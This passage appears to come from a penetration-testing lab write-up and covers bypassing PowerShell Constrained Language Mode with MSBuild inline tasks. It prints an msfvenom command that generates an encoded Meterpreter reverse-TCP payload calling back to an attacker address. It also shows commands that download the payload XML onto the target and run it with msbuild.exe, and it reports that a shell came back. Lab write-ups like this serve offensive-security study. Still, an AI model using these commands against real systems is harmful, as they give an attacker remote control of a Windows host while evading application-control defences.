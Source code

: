 got shell back.

![image-20221217183708875](./images/image-20221217183708875.png)



### msbuild bypass clm

```bash
## https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml
msfvenom --platform windows -p windows/meterpreter/reverse_tcp lhost=10.10.14.90 lport=443 -e x86/shikata_ga_nai -i 20 -f csharp -o meterpreter_443.cs -v shellcode 

```



download xml and modify the payload, which is generated by msfvenom.

```bash
## copy msf payload to shellcode.xml

## upload to target
iwr -uri http://10.10.14.90/shellcode.xml -outfile shell.xml

c:\windows\microsoft.net\framework\v4.0.30319\msbuild.exe shell.xml
```

got shell back, but not fulllanguage.

![image-20221217203017543](./images/image-20221217203017543.png)
